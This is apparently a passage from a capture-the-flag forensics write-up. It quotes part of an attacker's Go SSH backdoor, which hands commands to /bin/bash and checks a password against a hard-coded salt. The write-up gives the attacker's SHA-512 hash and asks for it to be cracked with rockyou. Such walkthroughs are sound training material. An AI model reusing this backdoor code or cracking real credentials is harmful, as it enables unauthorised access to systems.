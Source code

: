 import (
        "crypto/sha512"
        "fmt"
 ...
               }
                go func() {
                        io.Copy(f, s) // stdin
                }()
                io.Copy(s, f) // stdout
                cmd.Wait()
        } else {
                io.WriteString(s, "No PTY requested.\n")
                s.Exit(1)
        }
}

func runCommand(cmd string) []byte {
        result := exec.Command("/bin/bash", "-c", cmd)
        response, _ := result.CombinedOutput()
        return response
}

func passwordHandler(_ ssh.Context, password string) bool {
        return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
        
</code></pre>

<br>


> 2.3. <em>What was the hash that the attacker used? - go back to the PCAP for this!</em><br><a id='2.3'></a>
>> <code><strong>6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed</strong></code>


<br>

![image](https://github.com/user-attachments/assets/b6d29e61-efa3-463c-9ac7-dd64bcfee7ac)

<br>

![image](https://github.com/user-attachments/assets/f2e907b2-897f-4dd1-975d-eb26a162c9e5)


<br>

> 2.4. <em>Crack the hash using rockyou and a cracking tool of your choice. What's the password?</em><br><a id='2.4'></a>
>> <code><strong>___</strong></code>

<br>

![image](https://github.com/user-attachments/assets/c93fbd08-7fc5-4f2f-a6d3-9ac1c5f0eb91)

<br>
